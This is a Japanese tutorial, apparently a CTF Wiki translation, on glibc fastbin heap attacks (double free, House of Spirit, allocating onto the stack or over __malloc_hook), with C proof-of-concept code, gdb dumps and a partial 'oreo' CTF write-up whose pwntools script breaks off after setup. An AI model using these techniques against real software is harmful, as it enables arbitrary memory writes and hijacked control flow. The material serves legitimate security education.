


# Fastbin Attack

## はじめに
fastbin attack は脆弱性の攻撃手法の一種で、fastbin の仕組みに基づくあらゆる脆弱性攻撃を指します。この種の攻撃の前提は次のとおりです。

* ヒープオーバーフローや use-after-free など、chunk の内容を制御できる脆弱性が存在する
* 脆弱性が fastbin 型の chunk で発生する

細かく分けると、次のように分類できます。

- Fastbin Double Free
- House of Spirit
- Alloc to Stack
- Arbitrary Alloc

このうち、前の2つは主に `free` 関数で**本物の chunk または偽の chunk** を解放し、その後 chunk を再び確保して攻撃することに重点があり、後の2つは意図的に `fd` ポインタを書き換え、`malloc` で指定した位置の chunk を直接確保して攻撃することに重点があります。

## 原理

fastbin attack が存在する理由は、fastbin が単方向リストで解放されたヒープブロックを維持しており、さらに fastbin が管理する chunk は解放されても、その next_chunk の prev_inuse ビットがクリアされないためです。
fastbin が空き chunk をどのように管理しているかを見てみましょう。
```
int main(void)
{
    void *chunk1,*chunk2,*chunk3;
    chunk1=malloc(0x30);
    chunk2=malloc(0x30);
    chunk3=malloc(0x30);
    //解放する
    free(chunk1);
    free(chunk2);
    free(chunk3);
    return 0;
}
```
解放前
```
0x602000:	0x0000000000000000	0x0000000000000041 <=== chunk1
0x602010:	0x0000000000000000	0x0000000000000000
0x602020:	0x0000000000000000	0x0000000000000000
0x602030:	0x0000000000000000	0x0000000000000000
0x602040:	0x0000000000000000	0x0000000000000041 <=== chunk2
0x602050:	0x0000000000000000	0x0000000000000000
0x602060:	0x0000000000000000	0x0000000000000000
0x602070:	0x0000000000000000	0x0000000000000000
0x602080:	0x0000000000000000	0x0000000000000041 <=== chunk3
0x602090:	0x0000000000000000	0x0000000000000000
0x6020a0:	0x0000000000000000	0x0000000000000000
0x6020b0:	0x0000000000000000	0x0000000000000000
0x6020c0:	0x0000000000000000	0x0000000000020f41 <=== top chunk
```
3回 free を実行して解放した後
```
0x602000:	0x0000000000000000	0x0000000000000041 <=== chunk1
0x602010:	0x0000000000000000	0x0000000000000000
0x602020:	0x0000000000000000	0x0000000000000000
0x602030:	0x0000000000000000	0x0000000000000000
0x602040:	0x0000000000000000	0x0000000000000041 <=== chunk2
0x602050:	0x0000000000602000	0x0000000000000000
0x602060:	0x0000000000000000	0x0000000000000000
0x602070:	0x0000000000000000	0x0000000000000000
0x602080:	0x0000000000000000	0x0000000000000041 <=== chunk3
0x602090:	0x0000000000602040	0x0000000000000000
0x6020a0:	0x0000000000000000	0x0000000000000000
0x6020b0:	0x0000000000000000	0x0000000000000000
0x6020c0:	0x0000000000000000	0x0000000000020f41 <=== top chunk
```
このとき、main_arena にある fastbin のリストには chunk3 を指すポインタがすでに格納されており、chunk 3、2、1 が単方向リストを構成しています。
```
Fastbins[idx=2, size=0x30,ptr=0x602080]
===>Chunk(fd=0x602040, size=0x40, flags=PREV_INUSE)
===>Chunk(fd=0x602000, size=0x40, flags=PREV_INUSE)
===>Chunk(fd=0x000000, size=0x40, flags=PREV_INUSE)
```


## Fastbin Double Free

### 概要

Fastbin Double Free とは、fastbin の chunk を複数回解放できることを指します。そのため、fastbin のリストに同じ chunk が複数回存在しえます。この結果、複数回の割り当てで fastbin のリストから同じヒープブロックを取り出せます。これは複数のポインタが同じヒープブロックを指しているのと同じで、ヒープブロックのデータ内容と組み合わせて、型混同(type confused)のような効果を実現できます。

Fastbin Double Free が成功する理由は、主に2つあります。

1. fastbin のヒープブロックは解放された後も、next_chunk の pre_inuse ビットがクリアされない
2. fastbin は free を実行するとき、main_arena が直接指しているブロック、つまりリストの先頭ポインタにあるブロックしか検証しない。リストの後ろのブロックについては検証が行われない。

```
/* Another simple check: make sure the top of the bin is not the
	   record we are going to add (i.e., double free).  */
	if (__builtin_expect (old == p, 0))
	  {
	    errstr = "double free or corruption (fasttop)";
	    goto errout;
}
```

### デモ
次のサンプルプログラムがこの点を示しています。次のコードを実行しようとすると、

```
int main(void)
{
    void *chunk1,*chunk2,*chunk3;
    chunk1=malloc(0x10);
    chunk2=malloc(0x10);

    free(chunk1);
    free(chunk1);
    return 0;
}
```
このプログラムを実行すると、予想外のことがなければ次のような結果になります。これはまさに _int_free 関数が fastbin の double free を検出したものです。
```
*** Error in `./tst': double free or corruption (fasttop): 0x0000000002200010 ***
======= Backtrace: =========
/lib/x86_64-linux-gnu/libc.so.6(+0x777e5)[0x7fbb7a36c7e5]
/lib/x86_64-linux-gnu/libc.so.6(+0x8037a)[0x7fbb7a37537a]
/lib/x86_64-linux-gnu/libc.so.6(cfree+0x4c)[0x7fbb7a37953c]
./tst[0x4005a2]
/lib/x86_64-linux-gnu/libc.so.6(__libc_start_main+0xf0)[0x7fbb7a315830]
./tst[0x400499]
======= Memory map: ========
00400000-00401000 r-xp 00000000 08:01 1052570                            /home/Ox9A82/tst/tst
00600000-00601000 r--p 00000000 08:01 1052570                            /home/Ox9A82/tst/tst
00601000-00602000 rw-p 00001000 08:01 1052570                            /home/Ox9A82/tst/tst
02200000-02221000 rw-p 00000000 00:00 0                                  [heap]
7fbb74000000-7fbb74021000 rw-p 00000000 00:00 0
7fbb74021000-7fbb78000000 ---p 00000000 00:00 0
7fbb7a0df000-7fbb7a0f5000 r-xp 00000000 08:01 398790                     /lib/x86_64-linux-gnu/libgcc_s.so.1
7fbb7a0f5000-7fbb7a2f4000 ---p 00016000 08:01 398790                     /lib/x86_64-linux-gnu/libgcc_s.so.1
7fbb7a2f4000-7fbb7a2f5000 rw-p 00015000 08:01 398790                     /lib/x86_64-linux-gnu/libgcc_s.so.1
7fbb7a2f5000-7fbb7a4b5000 r-xp 00000000 08:01 415688                     /lib/x86_64-linux-gnu/libc-2.23.so
7fbb7a4b5000-7fbb7a6b5000 ---p 001c0000 08:01 415688                     /lib/x86_64-linux-gnu/libc-2.23.so
7fbb7a6b5000-7fbb7a6b9000 r--p 001c0000 08:01 415688                     /lib/x86_64-linux-gnu/libc-2.23.so
7fbb7a6b9000-7fbb7a6bb000 rw-p 001c4000 08:01 415688                     /lib/x86_64-linux-gnu/libc-2.23.so
7fbb7a6bb000-7fbb7a6bf000 rw-p 00000000 00:00 0
7fbb7a6bf000-7fbb7a6e5000 r-xp 00000000 08:01 407367                     /lib/x86_64-linux-gnu/ld-2.23.so
7fbb7a8c7000-7fbb7a8ca000 rw-p 00000000 00:00 0
7fbb7a8e1000-7fbb7a8e4000 rw-p 00000000 00:00 0
7fbb7a8e4000-7fbb7a8e5000 r--p 00025000 08:01 407367                     /lib/x86_64-linux-gnu/ld-2.23.so
7fbb7a8e5000-7fbb7a8e6000 rw-p 00026000 08:01 407367                     /lib/x86_64-linux-gnu/ld-2.23.so
7fbb7a8e6000-7fbb7a8e7000 rw-p 00000000 00:00 0
7ffcd2f93000-7ffcd2fb4000 rw-p 00000000 00:00 0                          [stack]
7ffcd2fc8000-7ffcd2fca000 r--p 00000000 00:00 0                          [vvar]
7ffcd2fca000-7ffcd2fcc000 r-xp 00000000 00:00 0                          [vdso]
ffffffffff600000-ffffffffff601000 r-xp 00000000 00:00 0                  [vsyscall]
已放弃 (核心已转储)
```
chunk1 を解放した後に chunk2 を解放すると、main_arena は chunk1 ではなく chunk2 を指すようになり、このとき chunk1 を解放しても検出されなくなります。
```
int main(void)
{
    void *chunk1,*chunk2,*chunk3;
    chunk1=malloc(0x10);
    chunk2=malloc(0x10);

    free(chunk1);
    free(chunk2);
    free(chunk1);
    return 0;
}
```
1回目の解放 `free(chunk1)`



2回目の解放 `free(chunk2)`


3回目の解放 `free(chunk1)`





chunk1 が再び解放されたため、その fd の値は 0 ではなく chunk2 を指すようになっている点に注意してください。このとき chunk1 の内容を制御できれば、その fd ポインタに書き込むことで、望みの任意のアドレスに fastbin ブロックを確保させることができます。
次のサンプルがこれを示しています。まず前の例と同様に main_arena=>chunk1=>chun2=>chunk1 のリストを作ります。その後、最初に malloc を呼び出して chunk1 を返させた後、chunk1 の fd ポインタを bss セグメント上の bss_chunk に書き換えます。すると、fastbin がヒープブロックをそこに割り当てることが分かります。

```
typedef struct _chunk
{
    long long pre_size;
    long long size;
    long long fd;
    long long bk;
} CHUNK,*PCHUNK;

CHUNK bss_chunk;

int main(void)
{
    void *chunk1,*chunk2,*chunk3;
    void *chunk_a,*chunk_b;

    bss_chunk.size=0x21;
    chunk1=malloc(0x10);
    chunk2=malloc(0x10);

    free(chunk1);
    free(chunk2);
    free(chunk1);

    chunk_a=malloc(0x10);
    *(long long *)chunk_a=&bss_chunk;
    malloc(0x10);
    malloc(0x10);
    chunk_b=malloc(0x10);
    printf("%p",chunk_b);
    return 0;
}
```
私の環境では chunk_b の出力値は 0x601090 になります。この値は bss セグメント内にあり、先ほど設定した `CHUNK bss_chunk` です。
```
Start              End                Offset             Perm Path
0x0000000000400000 0x0000000000401000 0x0000000000000000 r-x /home/Ox9A82/tst/tst
0x0000000000600000 0x0000000000601000 0x0000000000000000 r-- /home/Ox9A82/tst/tst
0x0000000000601000 0x0000000000602000 0x0000000000001000 rw- /home/Ox9A82/tst/tst
0x0000000000602000 0x0000000000623000 0x0000000000000000 rw- [heap]

0x601080 <bss_chunk>:	0x0000000000000000	0x0000000000000021
0x601090 <bss_chunk+16>:0x0000000000000000	0x0000000000000000
0x6010a0:	            0x0000000000000000	0x0000000000000000
0x6010b0:	            0x0000000000000000	0x0000000000000000
0x6010c0:	            0x0000000000000000	0x0000000000000000
```
注目すべきは、main 関数の最初の手順で `bss_chunk.size=0x21;` という操作をしている点です。これは _int_malloc が割り当てようとする位置の size フィールドを検証し、その size が現在の fastbin のリストにあるべき size と合わなければ例外を投げるためです。
```
*** Error in `./tst': malloc(): memory corruption (fast): 0x0000000000601090 ***
======= Backtrace: =========
/lib/x86_64-linux-gnu/libc.so.6(+0x777e5)[0x7f8f9deb27e5]
/lib/x86_64-linux-gnu/libc.so.6(+0x82651)[0x7f8f9debd651]
/lib/x86_64-linux-gnu/libc.so.6(__libc_malloc+0x54)[0x7f8f9debf184]
./tst[0x400636]
/lib/x86_64-linux-gnu/libc.so.6(__libc_start_main+0xf0)[0x7f8f9de5b830]
./tst[0x4004e9]
======= Memory map: ========
00400000-00401000 r-xp 00000000 08:01 1052570                            /home/Ox9A82/tst/tst
00600000-00601000 r--p 00000000 08:01 1052570                            /home/Ox9A82/tst/tst
00601000-00602000 rw-p 00001000 08:01 1052570                            /home/Ox9A82/tst/tst
00bc4000-00be5000 rw-p 00000000 00:00 0                                  [heap]
7f8f98000000-7f8f98021000 rw-p 00000000 00:00 0
7f8f98021000-7f8f9c000000 ---p 00000000 00:00 0
7f8f9dc25000-7f8f9dc3b000 r-xp 00000000 08:01 398790                     /lib/x86_64-linux-gnu/libgcc_s.so.1
7f8f9dc3b000-7f8f9de3a000 ---p 00016000 08:01 398790                     /lib/x86_64-linux-gnu/libgcc_s.so.1
7f8f9de3a000-7f8f9de3b000 rw-p 00015000 08:01 398790                     /lib/x86_64-linux-gnu/libgcc_s.so.1
7f8f9de3b000-7f8f9dffb000 r-xp 00000000 08:01 415688                     /lib/x86_64-linux-gnu/libc-2.23.so
7f8f9dffb000-7f8f9e1fb000 ---p 001c0000 08:01 415688                     /lib/x86_64-linux-gnu/libc-2.23.so
7f8f9e1fb000-7f8f9e1ff000 r--p 001c0000 08:01 415688                     /lib/x86_64-linux-gnu/libc-2.23.so
7f8f9e1ff000-7f8f9e201000 rw-p 001c4000 08:01 415688                     /lib/x86_64-linux-gnu/libc-2.23.so
7f8f9e201000-7f8f9e205000 rw-p 00000000 00:00 0
7f8f9e205000-7f8f9e22b000 r-xp 00000000 08:01 407367                     /lib/x86_64-linux-gnu/ld-2.23.so
7f8f9e40d000-7f8f9e410000 rw-p 00000000 00:00 0
7f8f9e427000-7f8f9e42a000 rw-p 00000000 00:00 0
7f8f9e42a000-7f8f9e42b000 r--p 00025000 08:01 407367                     /lib/x86_64-linux-gnu/ld-2.23.so
7f8f9e42b000-7f8f9e42c000 rw-p 00026000 08:01 407367                     /lib/x86_64-linux-gnu/ld-2.23.so
7f8f9e42c000-7f8f9e42d000 rw-p 00000000 00:00 0
7fff71a94000-7fff71ab5000 rw-p 00000000 00:00 0                          [stack]
7fff71bd9000-7fff71bdb000 r--p 00000000 00:00 0                          [vvar]
7fff71bdb000-7fff71bdd000 r-xp 00000000 00:00 0                          [vdso]
ffffffffff600000-ffffffffff601000 r-xp 00000000 00:00 0                  [vsyscall]
已放弃 (核心已转储)
```
_int_malloc での検査は次のとおりです。
```
if (__builtin_expect (fastbin_index (chunksize (victim)) != idx, 0))
	{
	  errstr = "malloc(): memory corruption (fast)";
	errout:
	  malloc_printerr (check_action, errstr, chunk2mem (victim));
	  return NULL;
}
```

### まとめ
fastbin double free により、複数のポインタで同じヒープブロックを制御できます。これはヒープブロック内の重要なデータフィールドの改ざんや、型混同のような効果の実現に使えます。
さらに fd ポインタを書き換えれば、任意のアドレスにヒープブロックを割り当てる効果を実現できます(まず検証を通過する必要があります)。これは、任意のアドレスに任意の値を書き込む効果に相当します。

## House Of Spirit

### 概要

House of Spirit は `the Malloc Maleficarum` にある技術の1つです。

この技術の核心は、目的の位置に fastbin の chunk を偽造して解放することで、**指定したアドレス**の chunk を割り当てるという目的を達成することです。

fastbin の偽 chunk を作り、それを解放したときに対応する fastbin のリストに入れられるようにするには、いくつかの必要な検査を回避する必要があります。すなわち、

- fake chunk の ISMMAP ビットが 1 であってはならない。free 時に mmap の chunk であれば別に処理されるため。
- fake chunk のアドレスはアライメントされている必要がある(MALLOC_ALIGN_MASK)
- fake chunk の size は、対応する fastbin の要件を満たす必要があり、アライメントもされている必要がある。
- fake chunk の next chunk のサイズは `2 * SIZE_SZ` より小さくてはならず、`av->system_mem` より大きくてもならない。
- fake chunk に対応する fastbin のリストの先頭が、その fake chunk であってはならない。つまり double free の状況になってはならない。

なぜこれらの検査を回避する必要があるかについては、free の部分のソースコードを参照してください。

### デモ

ここでは how2heap の例を使って説明します。次のとおりです。

```c
#include <stdio.h>
#include <stdlib.h>

int main()
{
	fprintf(stderr, "This file demonstrates the house of spirit attack.\n");

	fprintf(stderr, "Calling malloc() once so that it sets up its memory.\n");
	malloc(1);

	fprintf(stderr, "We will now overwrite a pointer to point to a fake 'fastbin' region.\n");
	unsigned long long *a;
	// This has nothing to do with fastbinsY (do not be fooled by the 10) - fake_chunks is just a piece of memory to fulfil allocations (pointed to from fastbinsY)
	unsigned long long fake_chunks[10] __attribute__ ((aligned (16)));

	fprintf(stderr, "This region (memory of length: %lu) contains two chunks. The first starts at %p and the second at %p.\n", sizeof(fake_chunks), &fake_chunks[1], &fake_chunks[7]);

	fprintf(stderr, "This chunk.size of this region has to be 16 more than the region (to accomodate the chunk data) while still falling into the fastbin category (<= 128 on x64). The PREV_INUSE (lsb) bit is ignored by free for fastbin-sized chunks, however the IS_MMAPPED (second lsb) and NON_MAIN_ARENA (third lsb) bits cause problems.\n");
	fprintf(stderr, "... note that this has to be the size of the next malloc request rounded to the internal size used by the malloc implementation. E.g. on x64, 0x30-0x38 will all be rounded to 0x40, so they would work for the malloc parameter at the end. \n");
	fake_chunks[1] = 0x40; // this is the size

	fprintf(stderr, "The chunk.size of the *next* fake region has to be sane. That is > 2*SIZE_SZ (> 16 on x64) && < av->system_mem (< 128kb by default for the main arena) to pass the nextsize integrity checks. No need for fastbin size.\n");
        // fake_chunks[9] because 0x40 / sizeof(unsigned long long) = 8
	fake_chunks[9] = 0x1234; // nextsize

	fprintf(stderr, "Now we will overwrite our pointer with the address of the fake region inside the fake first chunk, %p.\n", &fake_chunks[1]);
	fprintf(stderr, "... note that the memory address of the *region* associated with this chunk must be 16-byte aligned.\n");
	a = &fake_chunks[2];

	fprintf(stderr, "Freeing the overwritten pointer.\n");
	free(a);

	fprintf(stderr, "Now the next malloc will return the region of our fake chunk at %p, which will be %p!\n", &fake_chunks[1], &fake_chunks[2]);
	fprintf(stderr, "malloc(0x30): %p\n", malloc(0x30));
}
```

実行した結果は次のとおりです。

```shell
➜  how2heap git:(master) ./house_of_spirit
This file demonstrates the house of spirit attack.
Calling malloc() once so that it sets up its memory.
We will now overwrite a pointer to point to a fake 'fastbin' region.
This region (memory of length: 80) contains two chunks. The first starts at 0x7ffd9bceaa58 and the second at 0x7ffd9bceaa88.
This chunk.size of this region has to be 16 more than the region (to accomodate the chunk data) while still falling into the fastbin category (<= 128 on x64). The PREV_INUSE (lsb) bit is ignored by free for fastbin-sized chunks, however the IS_MMAPPED (second lsb) and NON_MAIN_ARENA (third lsb) bits cause problems.
... note that this has to be the size of the next malloc request rounded to the internal size used by the malloc implementation. E.g. on x64, 0x30-0x38 will all be rounded to 0x40, so they would work for the malloc parameter at the end.
The chunk.size of the *next* fake region has to be sane. That is > 2*SIZE_SZ (> 16 on x64) && < av->system_mem (< 128kb by default for the main arena) to pass the nextsize integrity checks. No need for fastbin size.
Now we will overwrite our pointer with the address of the fake region inside the fake first chunk, 0x7ffd9bceaa58.
... note that the memory address of the *region* associated with this chunk must be 16-byte aligned.
Freeing the overwritten pointer.
Now the next malloc will return the region of our fake chunk at 0x7ffd9bceaa58, which will be 0x7ffd9bceaa60!
malloc(0x30): 0x7ffd9bceaa60
```

### まとめ

この技術で chunk を指定のアドレスに割り当てるには、実は指定アドレスの内容を一切変更する必要がないことが分かります。**重要なのは、指定アドレスの前後の内容を変更して、対応する検査を回避できるようにすることです**。

## Alloc to Stack

### 概要

前述の Fastbin Double Free と house of spirit の技術を理解していれば、この技術の理解は問題ないはずです。これらの本質はどれも fastbin のリストの性質、つまり現在の chunk の fd ポインタが次の chunk を指すという点にあります。

この技術の核心は、fastbin のリスト中の chunk の fd ポインタを乗っ取り、その fd ポインタを確保したいスタック上の位置に向けることで、スタック中の戻りアドレスなどの重要なデータを制御することです。

### デモ
今回は fake_chunk をスタック中に置き、これを stack_chunk と呼びます。同時に fastbin のリスト中の chunk の fd の値を乗っ取り、この fd の値を stack_chunk に向けることで、スタック中に fastbin chunk を割り当てられます。
```
typedef struct _chunk
{
    long long pre_size;
    long long size;
    long long fd;
    long long bk;
} CHUNK,*PCHUNK;

int main(void)
{
    CHUNK stack_chunk;

    void *chunk1;
    void *chunk_a;

    stack_chunk.size=0x21;
    chunk1=malloc(0x10);

    free(chunk1);

    *(long long *)chunk1=&stack_chunk;
    malloc(0x10);
    chunk_a=malloc(0x10);
    return 0;
}
```
gdb でデバッグすると、まず chunk1 の fd ポインタを stack_chunk に向けたことが分かります。
```
0x602000:	0x0000000000000000	0x0000000000000021 <=== chunk1
0x602010:	0x00007fffffffde60	0x0000000000000000
0x602020:	0x0000000000000000	0x0000000000020fe1 <=== top chunk
```
その後、最初の malloc により fastbin のリストが stack_chunk を指すようになります。これは、次の割り当てでは stack_chunk のメモリが使われることを意味します。
```
0x7ffff7dd1b20 <main_arena>:	0x0000000000000000 <=== unsorted bin
0x7ffff7dd1b28 <main_arena+8>:  0x00007fffffffde60 <=== fastbin[0]
0x7ffff7dd1b30 <main_arena+16>:	0x0000000000000000
```
最終的に、2回目の malloc の戻り値は 0x00007fffffffde70、つまり stack_chunk になります。
```
   0x400629 <main+83>        call   0x4004c0 <malloc@plt>
 → 0x40062e <main+88>        mov    QWORD PTR [rbp-0x38], rax
   $rax   : 0x00007fffffffde70

0x0000000000400000 0x0000000000401000 0x0000000000000000 r-x /home/Ox9A82/tst/tst
0x0000000000600000 0x0000000000601000 0x0000000000000000 r-- /home/Ox9A82/tst/tst
0x0000000000601000 0x0000000000602000 0x0000000000001000 rw- /home/Ox9A82/tst/tst
0x0000000000602000 0x0000000000623000 0x0000000000000000 rw- [heap]
0x00007ffff7a0d000 0x00007ffff7bcd000 0x0000000000000000 r-x /lib/x86_64-linux-gnu/libc-2.23.so
0x00007ffff7bcd000 0x00007ffff7dcd000 0x00000000001c0000 --- /lib/x86_64-linux-gnu/libc-2.23.so
0x00007ffff7dcd000 0x00007ffff7dd1000 0x00000000001c0000 r-- /lib/x86_64-linux-gnu/libc-2.23.so
0x00007ffff7dd1000 0x00007ffff7dd3000 0x00000000001c4000 rw- /lib/x86_64-linux-gnu/libc-2.23.so
0x00007ffff7dd3000 0x00007ffff7dd7000 0x0000000000000000 rw-
0x00007ffff7dd7000 0x00007ffff7dfd000 0x0000000000000000 r-x /lib/x86_64-linux-gnu/ld-2.23.so
0x00007ffff7fdb000 0x00007ffff7fde000 0x0000000000000000 rw-
0x00007ffff7ff6000 0x00007ffff7ff8000 0x0000000000000000 rw-
0x00007ffff7ff8000 0x00007ffff7ffa000 0x0000000000000000 r-- [vvar]
0x00007ffff7ffa000 0x00007ffff7ffc000 0x0000000000000000 r-x [vdso]
0x00007ffff7ffc000 0x00007ffff7ffd000 0x0000000000025000 r-- /lib/x86_64-linux-gnu/ld-2.23.so
0x00007ffff7ffd000 0x00007ffff7ffe000 0x0000000000026000 rw- /lib/x86_64-linux-gnu/ld-2.23.so
0x00007ffff7ffe000 0x00007ffff7fff000 0x0000000000000000 rw-
0x00007ffffffde000 0x00007ffffffff000 0x0000000000000000 rw- [stack]
0xffffffffff600000 0xffffffffff601000 0x0000000000000000 r-x [vsyscall]

```


### まとめ
この技術により、fastbin chunk をスタックに割り当て、戻りアドレスなどの重要なデータを制御できます。これを実現するには、fastbin 中の chunk の fd フィールドを乗っ取ってスタック上に向ける必要があり、もちろんスタック上に条件を満たす size の値が存在することも必要です。

## Arbitrary Alloc

### 概要

Arbitrary Alloc は実は Alloc to stack とまったく同じで、唯一の違いは、割り当ての対象がスタックではなくなることです。
実際には、対象のアドレスに正当な size フィールドがありさえすれば(この size フィールドが作ったものか、もともと存在するものかは問いません)、chunk を bss、heap、data、stack など、書き込み可能な任意のメモリに割り当てられます。

### デモ
この例では、バイトのずらしを使って、fastbin を **\_malloc_hook の位置に直接割り当て、_malloc_hook を上書きしてプログラムのフローを制御することに相当します。**
```
int main(void)
{


    void *chunk1;
    void *chunk_a;

    chunk1=malloc(0x60);

    free(chunk1);

    *(long long *)chunk1=0x7ffff7dd1af5-0x8;
    malloc(0x60);
    chunk_a=malloc(0x60);
    return 0;
}
```
ここの 0x7ffff7dd1af5 は、私の環境の状況から得た値です。この値はどうやって得たのでしょうか。まず、書き込みたいアドレスの付近に、バイトのずらしが使える箇所があるかを観察する必要があります。
```
0x7ffff7dd1a88 0x0	0x0	0x0	0x0	0x0	0x0	0x0	0x0
0x7ffff7dd1a90 0x0	0x0	0x0	0x0	0x0	0x0	0x0	0x0
0x7ffff7dd1a98 0x0	0x0	0x0	0x0	0x0	0x0	0x0	0x0
0x7ffff7dd1aa0 0x0	0x0	0x0	0x0	0x0	0x0	0x0	0x0
0x7ffff7dd1aa8 0x0	0x0	0x0	0x0	0x0	0x0	0x0	0x0
0x7ffff7dd1ab0 0x0	0x0	0x0	0x0	0x0	0x0	0x0	0x0
0x7ffff7dd1ab8 0x0	0x0	0x0	0x0	0x0	0x0	0x0	0x0
0x7ffff7dd1ac0 0x0	0x0	0x0	0x0	0x0	0x0	0x0	0x0
0x7ffff7dd1ac8 0x0	0x0	0x0	0x0	0x0	0x0	0x0	0x0
0x7ffff7dd1ad0 0x0	0x0	0x0	0x0	0x0	0x0	0x0	0x0
0x7ffff7dd1ad8 0x0	0x0	0x0	0x0	0x0	0x0	0x0	0x0
0x7ffff7dd1ae0 0x0	0x0	0x0	0x0	0x0	0x0	0x0	0x0
0x7ffff7dd1ae8 0x0	0x0	0x0	0x0	0x0	0x0	0x0	0x0
0x7ffff7dd1af0 0x60 0x2	0xdd 0xf7 0xff 0x7f	0x0	0x0
0x7ffff7dd1af8 0x0  0x0	0x0	0x0	0x0	0x0	0x0	0x0
0x7ffff7dd1b00 0x20	0x2e 0xa9 0xf7 0xff	0x7f 0x0 0x0
0x7ffff7dd1b08 0x0	0x2a 0xa9 0xf7 0xff	0x7f 0x0 0x0
0x7ffff7dd1b10 <__malloc_hook>:	0x30	0x28	0xa9	0xf7	0xff	0x7f	0x0	0x0
```
0x7ffff7dd1b10 は制御したい __malloc_hook のアドレスです。そこで、上方向に探して、正当な size フィールドをずらして作れるかを調べます。このプログラムは64ビットなので、fastbin の範囲は 32 バイトから 128 バイト(0x20-0x80)です。次のとおりです。
```
//ここでの size はユーザー領域を指すため、SIZE_SZ の2倍だけ小さい
Fastbins[idx=0, size=0x10]
Fastbins[idx=1, size=0x20]
Fastbins[idx=2, size=0x30]
Fastbins[idx=3, size=0x40]
Fastbins[idx=4, size=0x50]
Fastbins[idx=5, size=0x60]
Fastbins[idx=6, size=0x70]
```
観察すると、0x7ffff7dd1af5 の位置で、バイトのずらしによって 0x000000000000007f を作れることが分かります。
```
0x7ffff7dd1af0 0x60 0x2	0xdd 0xf7 0xff 0x7f	0x0	0x0
0x7ffff7dd1af8 0x0  0x0	0x0	0x0	0x0	0x0	0x0	0x0

0x7ffff7dd1af5 <_IO_wide_data_0+309>:	0x000000000000007f
```
0x7f は fastbin index の計算では index 5、つまり chunk サイズが 0x70 のものに属するからです。

```c
##define fastbin_index(sz)                                                      \
    ((((unsigned int) (sz)) >> (SIZE_SZ == 8 ? 4 : 3)) - 2)
```
(sz のサイズは unsigned int なので、4 バイトしか占めない点に注意してください)


そしてそのサイズには 0x10 の chunk_header が含まれているため、0x60 の fastbin を確保し、リストに加えることにします。
最後に2回割り当てを行うと、chunk が 0x7ffff7dd1afd に割り当てられるのが観察でき、これで __malloc_hook の内容を直接制御できます(私の libc では __realloc_hook と __malloc_hook は連続しています)。

```
0x4005a8 <main+66>        call   0x400450 <malloc@plt>
 →   0x4005ad <main+71>        mov    QWORD PTR [rbp-0x8], rax

 $rax   : 0x7ffff7dd1afd

0x7ffff7dd1aed <_IO_wide_data_0+301>:	0xfff7dd0260000000	0x000000000000007f
0x7ffff7dd1afd:	0xfff7a92e20000000	0xfff7a92a0000007f
0x7ffff7dd1b0d <__realloc_hook+5>:	0x000000000000007f	0x0000000000000000
0x7ffff7dd1b1d:	0x0000000000000000	0x0000000000000000

```


### まとめ
Arbitrary Alloc は CTF でより頻繁に使われます。バイトのずらしなどの方法で size フィールドの検査を回避し、任意のアドレスに chunk を割り当てられます。最終的な効果は、任意のアドレスに任意の値を書き込むことに相当します。

## 2014 hack.lu oreo
[問題へのリンク](https://github.com/ctf-wiki/ctf-challenges/tree/master/pwn/linux/user-mode/heap/fastbin-attack/2014_hack.lu_oreo)

### 基本分析

```shell
➜  2014_Hack.lu_oreo git:(master) file oreo
oreo: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.26, BuildID[sha1]=f591eececd05c63140b9d658578aea6c24450f8b, stripped
➜  2014_Hack.lu_oreo git:(master) checksec oreo
[*] '/mnt/hgfs/Hack/ctf/ctf-wiki/pwn/heap/example/house_of_spirit/2014_Hack.lu_oreo/oreo'
    Arch:     i386-32-little
    RELRO:    No RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

プログラムは確かにかなり古く、32ビットのプログラムで動的リンクであり、RELRO さえ有効になっていないことが分かります。

### 基本機能

**注意:このプログラムは setvbuf を行っていないため、最初に io 関数を実行するとき、ヒープ上に領域が確保されます。**

プログラムが直接出力する情報のとおり、このプログラムは主に原始的なオンライン銃器システムです。銃器を追加する過程から、銃器の基本構造は次のようになると分かります。

```c
00000000 rifle           struc ; (sizeof=0x38, mappedto_5)
00000000 descript        db 25 dup(?)
00000019 name            db 27 dup(?)
00000034 next            dd ?                    ; offset
00000038 rifle           ends
```

プログラムの基本機能は次のとおりです。

- 銃器の追加。主に銃器の名前と説明を読み込みます。しかし問題は、読み込む名前の長さが長すぎて、next ポインタと後ろのヒープブロックのデータを上書きできることです。後ろのヒープブロックのデータを上書きできるサイズは 56-(56-27)=27 です。なお、これらの銃器のサイズはどれも fastbin の範囲内です。
- 追加した銃器の表示。最初から最後まで、銃器の説明と名前を出力します。
- 選択済みの銃器を注文する。追加済みの銃器をすべて解放しますが、NULL にはしません。
- 注文メッセージを残す
- 現在の状態を表示する。つまり、銃を何丁追加したか、何件注文したか、どんなメッセージを残したかを表示します。

分析すると、プログラムの脆弱性は主に、銃器を追加するときのヒープオーバーフローにあることが分かります。

### 攻撃

基本的な攻撃の流れは次のとおりです。

1. プログラムにはヒープオーバーフローがあり、next ポインタも制御できるため、next ポインタを直接プログラム中の got テーブルの位置に向けられます。表示するときに対応する内容を出力でき、その際、対応するアドレスを銃器構造体と見なしたときに、その next ポインタが NULL になっていることを同時に保証する必要があります。ここでは puts@got を使いました。この操作で、libc のベースアドレスと system 関数のアドレスを得られます。
2. 銃器構造体のサイズは 0x38 なので、対応する chunk は 0x40 です。ここでは `house of sprit` の技術を使い、0x0804A2A8 にある chunk、つまり残したメッセージのポインタを返させます。そのため、0x0804A2A4 の内容を 0x40 にする、つまり 0x40 丁の銃器を追加する必要があり、これでサイズの検査を回避します。同時に、next chunk の検査も回避できるようにするため、ここで残したメッセージを編集します。
3. このような chunk の割り当てに成功すると、実質的に任意アドレスの書き換え脆弱性を手に入れたことになります。ここでは適切な got のエントリを system のアドレスに書き換えて、shell を得られます。

具体的なコードは次のとおりです。

```python
from pwn import *
context.terminal = ['gnome-terminal', '-x', 'sh', '-c']
if args['DEBUG']:
    context.log_level = 'debug'
context.binary = "./oreo"
oreo = ELF("./oreo")
if args['REMOTE']:
    p = remote(ip, port)
else:
    p = process("./oreo")
